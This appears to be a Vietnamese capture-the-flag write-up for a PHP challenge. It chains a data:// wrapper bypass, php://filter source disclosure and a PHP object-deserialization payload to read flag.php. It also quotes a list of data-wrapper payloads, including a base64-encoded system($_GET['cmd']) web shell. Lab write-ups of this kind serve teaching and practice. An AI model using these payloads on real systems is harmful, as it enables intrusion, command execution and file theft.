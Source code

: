 Challenge cho ta source code

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

3 biến $file, $text, $password được tạo bằng cách lấy dữ liệu từ các tham số file, text, password được truyền lên bằng method GET.Sau đó là vòng lặp if, đầu tiên nó sẽ kiểm tra $text có tồn tại hay không và hàm file_get_content() sẽ tìm file text với option là “r” có nghĩa là read và check xem nội dung có phải là “welcome to the zjctf” hay không. Và bởi vì ko có file nào tồn tại với nội dung như vậy nên ta sẽ bypass nó qua if bằng data wrapper.

```source:hacktricks
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Ví dụ:

```php
<?php
echo file_get_contents('data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=');
?>
//output: welcome to the zjctf
```

Payload:

`?text=data:text/plan;base64,d2VsY29tZSB0byB0aGUgempjdGY=`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c2fa6ac7-28b6-434b-93a1-ac9c80a014e8)

Vậy hướng đi đã đúng giờ ta back về đọc lại source để làm tiếp.

```php
if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

Tiếp theo nó sẽ check xem có chữ flag trong $file không, nếu không thì nó sẽ include file, và ở đây được hint là useless.php nên mình sẽ mở file này bằng PHP wrapper.

`?text=data:text/plan;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/convert.base64-encode/resource=useless.php`

Kết quả cho ra 1 dãy base64.Sau đó decode

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

__toString: Phương thức __toString() sẽ được gọi khi chúng ta dùng đối tượng được unserialize() như một string. Và đối tượng được unserialze() ở đây là password, và nó được xem như là 1 string vì dùng hàm echo để print nó ra. Và trong source code này thì phương thức __tostring sẽ dùng hàm file_get_contents để đọc nội dung của biến file. Tasẽ lợi dụng điều này để đọc file flag.php

Payload:

```php
<?php

class Flag{
    public $file="flag.php";
}

$new = new Flag();
$a = serialize($new);
var_dump($a);
?>
```

Output: `O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

Payload: `/?text=data:text/plan;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/fed91652-720d-4d49-967c-60db7705d047)


